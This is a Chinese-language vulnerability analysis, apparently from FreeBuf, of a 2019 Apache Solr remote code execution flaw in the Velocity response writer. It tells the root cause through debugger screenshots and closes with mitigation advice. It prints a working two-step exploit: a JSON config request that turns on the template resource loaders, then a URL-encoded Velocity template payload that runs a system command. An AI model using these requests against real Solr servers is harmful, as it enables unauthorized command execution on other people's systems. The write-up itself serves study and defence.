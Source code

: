 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.freebuf.com](https://www.freebuf.com/vuls/218730.html) Apache Solr最新RCE漏洞分析 [平安银行应用安全团队](https://www.freebuf.com/author/平安银行应用安全团队) 2019-11-01 13:30:59 367535 3

引言
--

**Apache Solr爆出RCE 0day漏洞（漏洞编号未给出），这里简单的复现了对象，对整个RCE的流程做了一下分析，供各位看官参考。**

漏洞复现
----

复现版本：8.1.1

实现RCE，需要分两步，首先确认，应用开启了某个core（可以在Core Admin中查看），实例中应用开启了mycore，

![img1.jpg](https://image.3001.net/images/20191101/1572572078_5dbb8bae603bd.jpg!small)

然后先向其config接口发送以下json数据，

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
} 
```

![img2.jpg](https://image.3001.net/images/20191101/1572572088_5dbb8bb85ca05.jpg!small)

接着访问如下url，即可实现RCE，

```
/solr/mycore/select?wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end 
```

原理
--

首先去分析第一个数据包，因为是对mycore的配置，所以我们先把断点打在处理配置请求的SolrConfigHandler的handleRequestBody函数上，

![img3.jpg](https://image.3001.net/images/20191101/1572572098_5dbb8bc208e20.jpg!small)

因为是POST的请求，跟进handlePOST函数，

![img4.jpg](https://image.3001.net/images/20191101/1572572106_5dbb8bcab93c7.jpg!small)

在handlePOST中，先取出mycore的当前配置，再和我们发送的配置同时带进handleCommands函数，并在后续的操作中，最终进到addNamedPlugin函数，创建了一个VelocityResponseWriter对象，该对象的 solr.resource.loader.enabled和params.resource.loader.enabled的值设置成了true，该对象的name为velocity。

![img5.jpg](https://image.3001.net/images/20191101/1572572115_5dbb8bd3ccee9.jpg!small)

然后在发送第二个数据包的时候，在HttpSolrCall.call中获取responseWriter的时候，会根据参数wt的值去获取reponseWriter对象，当wt为velocity时，获取的就是我们精心配置过的VelocityResponseWriter

![img6.jpg](https://image.3001.net/images/20191101/1572572121_5dbb8bd97a4e2.jpg!small)

![img7.jpg](https://image.3001.net/images/20191101/1572572130_5dbb8be21929a.jpg!small)

在后续一连串调用后最终进入我们本次漏洞中最重的的VelocityResponseWriter.write函数，首先调用createEngine函数，生成了包含custom.vrm->payload的恶意template的engine，

![img8.jpg](https://image.3001.net/images/20191101/1572572163_5dbb8c038f7d9.jpg!small)

恶意的template放在engine的overridingProperties的params.resource.loader.instance和solr.resource.loader.instance中

![img9.jpg](https://image.3001.net/images/20191101/1572572153_5dbb8bf98791d.jpg!small)

这里有一个很重要的点，要想让恶意template进入params.resource.loader.instance和solr.resource.loader.instance中，是需要保证paramsResourceLoaderEnabled和solrResourceLoaderEnabled为True的，这也就是我们第一个数据包做的事情，

![img10.jpg](https://image.3001.net/images/20191101/1572572173_5dbb8c0d7b492.jpg!small)

然后再VelocityResponseWriter.getTemplate就会根据我们提交的v.template参数获取我们构造的恶意template

![img11.jpg](https://image.3001.net/images/20191101/1572572170_5dbb8c0a6fcf4.jpg!small)

最终取出了恶意的template，并调用了它的merge方法，

![img12.jpg](https://image.3001.net/images/20191101/1572572178_5dbb8c123e92a.jpg!small)

要了解这个template就需要了解一下Velocity Java 模板引擎（因为这个tmplate是org.apache.velocity.Template类对象），官方说法翻译一下如下，

```
Velocity是一个基于Java的模板引擎。它允许任何人使用简单但功能强大的模板语言来引用Java代码中定义的对象 
```

从这个说法，就能看出这个模板引擎是具有执行java代码的功能的，我们只需了解一下它的基本写法，

```
// 变量定义
#set($name =“velocity”)
// 变量赋值
#set($foo = $bar)
// 函数调用
#set($foo =“hello”) #set(foo.name=bar.name) #set(foo.name=bar.getName($arg)) 
// 循环语法
#foreach($element in $list)
 This is $element
 $velocityCount
#end
// 执行模板
template.merge(context, writer); 
```

有了上面这些基本的语法介绍，我们就能理解payload的构造方法了，如果希望更深入的了解，可以自行再去查阅Velocity Java 的资料，我们这里不再深入。

于是通过最后调用的恶意template的merge方法，成功造成了RCE，最后补上关键的调用链。

![img13.jpg](https://image.3001.net/images/20191101/1572572181_5dbb8c15e6c82.jpg!small)

修复方案
----

目前官方还未给出补丁，建议对solr做一下访问限制吧。

***本文作者：Glassy@平安银行应用安全团队，转载请注明来自FreeBuf.COM**

本文作者：平安银行应用安全团队， 转载请注明来自[FreeBuf.COM](https://www.freebuf.com)

# 漏洞分析 # apache # RCE漏洞 # Solr